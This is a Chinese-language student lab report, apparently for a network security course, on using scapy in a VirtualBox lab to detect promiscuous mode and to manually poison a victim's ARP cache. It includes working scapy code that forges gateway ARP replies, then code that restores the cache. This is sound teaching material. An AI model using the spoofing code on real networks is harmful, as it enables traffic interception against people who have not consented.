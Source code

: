# 实验四

## 实验环境

---

- virtualbox 6.1.38

## 实验拓扑结构（含ip、MAC地址）

---

- 拓扑结构：
![struction](img/struction.png)

|主机|ip地址|物理地址/网卡|
|:---:|:---:|:---:|
|网关debina|172.16.111.1|08:00:27:c7:48:97/enp0s9|
|攻击者kali|172.16.111.123|08:00:27:40:1a:fb/eth0|
|受害者kali|172.16.111.111|08:00:27:06:78:28/eth0|


- 网关：
![gw](img/gw.png)

- 攻击者：
![attacker](img/attacker.png)

- 被攻击者：
![victim](img/vic1.png)

## 实验准备

---

在攻击者主机上提前安装好 scapy 

```
#安装 python3
sudo apt update && sudo apt install python3 python3-pip

#ref:https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```

![scapy](img/scapy.png)

## 实验一：检测局域网中的异常终端

---
```
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show eth0
```

![Promiscuous mode](img/Promiscuous_mode.png)

```
# 在攻击者主机上开启 scapy
sudo scapy
# sudo 提升权限
```
![sudo_scapy](img/sudo_scapy.png)

```
# 在 scapy 的交互式终端输入以下代码回车执行
pkt = promiscping("172.16.111.111")
```
![pkt](img/pkt.png)
```
# 回到受害者主机上开启网卡的『混杂模式』
# 注意上述输出结果里应该没有出现 PROMISC 字符串
# 手动开启该网卡的「混杂模式」
sudo ip link set eth0 promisc on

# 此时会发现输出结果里多出来了 PROMISC 
ip link show eth0
# 2: eth0: <BROADCAST,MULTICAST,PROMISC,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP mode DEFAULT group default qlen 1000
link/ether 08:00:27:06:78:28 brd ff:ff:ff:ff:ff:ff
```
![PROMISC](img/PROMISC.png)

```
# 回到攻击者主机上的 scapy 交互式终端继续执行命令
# 观察两次命令的输出结果差异
pkt = promiscping("172.16.111.111")
```
![afteropen](img/afteropen.png)
```
# 在受害者主机上
# 手动关闭该网卡的「混杂模式」
sudo ip link set eth0 promisc off
```

## 实验二：手工单步“毒化”目标主机的 ARP 缓存

---
网关debina|172.16.111.1|08:00:27:c7:48:97/enp0s9|
|攻击者kali|172.16.111.123|08:00:27:40:1a:fb/eth0|
|受害者kali|172.16.111.111|08:00:27:06:78:28/eth0|
以下代码在攻击者主机上的 scapy 交互式终端完成。
```
# 获取当前局域网的网关 MAC 地址
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()
```
![arpshow](img/arpshow.png)

```
# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc

# 伪造网关的 ARP 响应包
# 准备发送给受害者主机 172.16.111.111
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
# 这里要注意按照课件的代码试不能“毒化”的，需要在外面加一层Ethernet帧头
arpspoofed=Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.111", hwdst="08:00:27:40:1a:fb")

# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```
![arpgw](img/arp_gw.png)
此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址
```
ip neigh
```
![ok](img/ok.png)
可以看到已经被毒化了

回到攻击者主机上的 scapy 交互式终端继续执行命令。

```
# 恢复受害者主机的 ARP 缓存记录
## 伪装网关给受害者发送 ARP 响应
restorepkt1 =  Ether()/ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:c7:48:97", pdst="172.16.111.111", hwdst="08:00:27:06:78:28")
sendp(restorepkt1, count=100, inter=0.2)
```
![recover](img/recover.png)
此时在受害者主机上准备“刷新”网关 ARP 记录。
```
## 在受害者主机上尝试 ping 网关
ping 172.16.111.1
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```
![recovervic](img/recovervic.png)

## 实验问题

---

- DDOS攻击：  
DDOS(Distributed Denial of Service)，即分布式拒绝服务，是一种针对于网络服务的攻击行为。对于 DDOS 我们可以这样通俗地理解，假如有一家商店在售卖商品，突然涌过来一大帮人说要买东西，这里面有的人是真正的顾客，有的人只是过来捣乱的，但是售货员可能就会崩溃了（不知道该卖给谁），就会导致一种拒绝服务攻击了。而分布式拒绝服务攻击，则是因为黑客控制了很多台肉鸡来发动攻击。这种攻击近些年来越来越流行，对于攻击者来说，成本小，但是相对收益大，对于受害者来说，造成的伤害却是巨大的。因为对于服务提供者来说，一旦服务不可用，就会造成不可挽回的损失，可能会导致用户量的流失。根据腾讯云发布的《2018年泛互联网行业DDoS攻击态势报告》，2018年 DDOS 攻击已经进入 TB 时代，2018 年的攻击峰值为 1.23Tbps（同比增长121%），而业界的攻击峰值更是达到惊人的 1.94Tbps。

- promiscping：  
  - promiscping 命令会发送 ARP who-has 请求。  
  - 混杂模式 接收所有经过网卡的数据包，包括不是发给本机的包，即不验证MAC地址；  
  - 普通模式 网卡只接收发给本机的包  

  从**实验一**中可以看出只有在混杂模式下，受害者主机才能收到这个数据包。  
  **网卡的混杂模式是为网络分析而提供的。**

- scapy：  
Scapy是一个Python程序，使用户能够发送，嗅探和剖析并伪造网络数据包。此功能允许构建可以探测，扫描或攻击网络的工具。换句话说，Scapy是一个功能强大的交互式数据包操作程序。它能够伪造或解码大量协议的数据包，通过线路发送，捕获它们，匹配请求和回复等等。Scapy可以轻松处理大多数经典任务，如扫描，跟踪路由，探测，单元测试，攻击或网络发现。它可以取代hping，arpspoof，arp-sk，arping，p0f甚至是Nmap，tcpdump和tshark的某些部分。

- 伪造的网关ARP相应包发不出去  
解决方法： 在构造ARP相应包时添加数据链路层Ether(),比如上述的实验二：
```
# 这里要注意按照课件的代码试不能“毒化”的，需要在外面加一层Ethernet帧头
arpspoofed=Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.111", hwdst="08:00:27:40:1a:fb")
```
## 参考资料：

- [混杂模式](https://blog.csdn.net/z136370204/article/details/97238861)

- https://blog.csdn.net/Ahuuua/article/details/108575907

- https://c4pr1c3.github.io/cuc-ns/